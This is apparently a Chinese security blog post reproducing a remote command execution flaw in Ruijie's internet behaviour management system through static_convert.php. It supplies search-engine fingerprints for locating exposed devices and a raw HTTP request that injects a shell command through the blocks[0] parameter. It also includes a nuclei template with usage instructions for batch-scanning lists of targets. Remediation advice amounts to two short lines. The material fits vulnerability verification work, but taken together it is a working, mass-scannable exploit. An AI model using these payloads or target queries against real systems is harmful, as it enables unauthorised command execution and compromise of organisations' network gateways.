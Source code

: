 #  【漏洞复现 | 含批量POC】锐捷上网行为管理系统 static_convert.php 远程命令执行漏洞   
小明同学  小明信安   2024-06-22 14:46  
  
**0x01 免责声明**  
  
disclaimer  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。信息及工具收集于互联网，真实性及安全性自测，如有侵权请联系删除。本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！！！  
  
**0x02 漏洞介绍**  
  
Vulnerability introduction  
  
    锐捷上网行为管理系统/view/IPV6/naborTable/static_convert.php接口存在任意命令执行漏洞。攻击者可以通过漏洞执行任意命令从而获取服务器权限，可能导致内网进一步被攻击。  
  
**0x03 搜索语法**  
  
Search for syntax  
  
- Fofa：  
  
  
```
body="c33367701511b4f6020ec61ded352059"
```  
  
- Hunter  
  
  
```
body="c33367701511b4f6020ec61ded352059"
```  
  
- Quake  
  
  
```
body="c33367701511b4f6020ec61ded352059"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/WfB6o4vicwSJmmtO9BBB9QTkA3DurUX9u7FhT7ocfJsyr4Fe1f2BsL5vVicy5768icyttukS3D5aJOWxoS8eoUdNw/640?wx_fmt=png&from=appmsg "")  
  
**0x04 漏洞复现**  
  
Request packets  
  
- 请求接口执行任意命令，例如写入文件  
  
```
GET /view/IPV6/naborTable/static_convert.php?blocks[0]=||%20%20echo%20'abab'%20>>%20/var/www/html/test.txt%0A HTTP/1.1
Host:your-ip
Accept: application/json, text/javascript, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/WfB6o4vicwSJmmtO9BBB9QTkA3DurUX9ufXtZFzq2geIpJTe2JCTZuHoyezicC2j8TlIiaESWHeXDiaLvuJWSJfheQ/640?wx_fmt=png&from=appmsg "")  
- 访问路径/test.txt  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/WfB6o4vicwSJmmtO9BBB9QTkA3DurUX9uk8bNZsLqVuXdIdMGjZ7TlMuKD86hbUjToBWoTcUmehkKHI3sbmJlTA/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
**0x05 nuclei POC**  
  
nuclei POC  
  
- Nuclei 批量检测POC  
  
- 所用方法nuclei.exe -l 网址文件.txt -t POC.yaml  
  
```
id: Ruijie_RG-UAC_static_convert_RCE

info:
  name: Ruijie_RG-UAC_static_convert_RCE
  author: security-xm
  severity: high
  description: 锐捷上网行为管理系统static_convert.php存在远程命令执行漏洞
  metadata:
    max-request: 2
    shodan-query: ""
    verified: true

http:
- raw:
  - |+
    @timeout: 30s
    GET /view/IPV6/naborTable/static_convert.php?blocks[0]=||%20%20echo%20'abab'%20>>%20/var/www/html/test.txt%0A HTTP/1.1
    Host: {{Hostname}}
    Accept: application/json, text/javascript, */*
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close

  - |+
    @timeout: 30s
    GET /test.txt HTTP/1.1
    Host: {{Hostname}}
    Accept: application/json, text/javascript, */*
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close

  max-redirects: 3
  matchers-condition: and
  matchers:
    - type: word
      part: body
      words:
        - abab
      condition: and

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/WfB6o4vicwSJmmtO9BBB9QTkA3DurUX9umiaUwwc7yxC68HFmQ18D4DGUcxicUq8Ij6MHibiawBbmE4jp3z1flqQ3rg/640?wx_fmt=png&from=appmsg "")  
  
  
**0x07 修复建议**  
  
Remediation recommendations  
  
- 在Web应用防火墙中添加接口临时黑名单规则  
  
- 联系厂商打补丁或升级版本。  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/WfB6o4vicwSISMoBvibVByMUlExr9ibqmnwWAbwiaNjO1XPzIHNbfEIfgfSHeJqDSHqIw8pXKSdgic1vSia8HhntX5lw/640?wx_fmt=gif&from=appmsg "")  
  
  
